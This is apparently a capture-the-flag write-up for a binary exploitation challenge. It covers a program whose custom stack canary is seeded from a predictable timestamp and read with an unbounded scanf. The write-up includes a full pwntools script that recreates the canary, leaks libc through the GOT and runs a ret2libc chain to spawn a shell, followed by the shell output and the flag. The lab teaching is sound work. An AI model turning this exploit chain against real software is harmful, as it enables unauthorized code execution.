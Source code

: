 # [PWN] cookie

## Vulnerability

- Buffer overflow

- Seeding PRNG with a predictable value

## Source

```c
void gadgets() { asm("mov %rbp, %rdi;ret"); }

int main(void) {
  init();
  unsigned char cookie[64];
  unsigned char input[100];
  for (int i = 0; i < 64; i++) {
    unsigned char val = 'A' + (rand() % 26);
    cookie[i] = val;
    cookie_backup[i] = val;
  }
  puts(
      "The rest of the challenges were defeated because they did not have \n"
      "default protections enabled. Particularly stack cookies are a serious \n"
      "issue in software exploitation.\n");
  puts("Someone said that a x86-64 program stack cookie will have 7bytes of \n"
       "randomness + 1 null byte of wastage. Here I will make my custom \n"
       "implementation of cookie with 512 bits of randomness. Let's see how "
       "you tackle this challenge.\n");
  printf("Go head, speak into the void: ");
  scanf("%s", input);
  if (memcmp(cookie, cookie_backup, 64)) {
    puts("[ALERT] COOKIE IS TAMPERED! ABORTING...");
    exit(EXIT_FAILURE);
  }
  return EXIT_SUCCESS;
}
```

```c
void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
  signal(SIGALRM, timeout);
  alarm(10);
  seed = time(0) >> 5;
  srand(seed);
}

```

# Exploit

The seed is the UNIX epoch timestamp divided by 32 (also rounded down to nearest integer). So this means it remains same for a timespan of 32 seconds. Which means for 32 seconds, any program generating random numbers with that seed, will generate the exact same sequence.

So we can create the exact same random sequence for ourselves and defeat the randomness of the custom canary implementation.

Next part is straightforward, since there is no `win()` function here, we need to use techniques like `ret2libc` to pop a shell.

But for that we need leak the address of libc itself. 

Luckily the program is compiled without PIE so we can use gadgets from the binary itself to print a resolved GOT entry (having a pointer to libc address) + *restart the program to maintain the state*.

Next we can utilise the info leak to do the `ret2libc` attack.

> TIP : Ensure to use libc from the given Dockerfile

```python
from pwn import *
import ctypes
import time

gs = '''
b * main+252
c
'''
exe = ELF('./cookie_patched')
context.terminal = ['tmux', 'splitw', '-h']

# io = process(exe.path)
io = remote("localhost", 50002)

libc = ctypes.CDLL('./libc.so.6')
libc.srand(int(time.time()) >> 5)
cookie = b''
for _ in range(64):
    cookie += (ord('A') + (libc.rand() % 26)).to_bytes()
libc = exe.libc

# gdb.attach(io, gdbscript=gs)
chain  = b''
chain += p64(0x000000000040101a) # ret
chain += p64(0x00000000004011ad) # pop rbp
chain += p64(exe.got['puts'])
chain += p64(0x0000000000401289) # mov rdi, rbp
chain += p64(exe.plt['puts'])
chain += p64(exe.sym['main'])
payload = flat({
    'daab': cookie,
    'zaac': chain
})
io.clean()
io.sendline(payload)
leak = u64( io.recv(6).ljust(8, b'\x00') )
log.info(f'{hex(leak) = }')
libc.address = leak - 0x87bd0
log.success(f'{hex(libc.address) = }')

chain  = b''
chain += p64(libc.address + 0x000000000002882f) # ret
chain += p64(libc.address + 0x000000000010f75b) # pop rdi
chain += p64(next(libc.search(b'/bin/sh\x00')))
chain += p64(libc.sym['system'])
payload = flat({
    'daab': cookie,
    'zaac': chain
})
io.sendline(payload)
io.clean()

io.interactive()

```

```shell
➜  solution python solve.py
[*] hex(leak) = '0x71d267287bd0'
[+] hex(libc.address) = '0x71d267200000'
[*] Switching to interactive mode
$ ls
cookie  flag.txt
$ cat flag.txt
DJSISACA{Wh475_7h3_pURP053_0F_r4Nd0MN355_1F_17_C4N_83_Pr3D1c73d}
```

## Flag

`DJSISACA{Wh475_7h3_pURP053_0F_r4Nd0MN355_1F_17_C4N_83_Pr3D1c73d}`


